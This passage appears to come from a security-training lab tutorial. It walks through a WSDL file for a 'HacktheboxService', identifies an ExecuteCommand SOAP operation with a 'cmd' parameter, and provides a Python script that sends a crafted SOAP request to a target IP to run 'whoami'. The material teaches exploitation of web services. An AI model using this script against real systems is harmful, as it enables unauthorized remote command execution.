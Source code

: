 ```shell-session
    
  </wsdl:binding>
  
  
  
  
  
  <wsdl:service name="HacktheboxService">
    
    
    <wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
      <soap:address location="http://localhost:80/wsdl"/>
    </wsdl:port>
    
    
  </wsdl:service>
  
  
  
  
  
</wsdl:definitions>
```

The first thing to pay attention to is the following.


```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

We can see a SOAPAction operation called _ExecuteCommand_.

Let us take a look at the parameters.


```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

We notice that there is a _cmd_ parameter. Let us build a Python script to issue requests (save it as `client.py`). Note that the below script will try to have the SOAP service execute a `whoami` command.

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
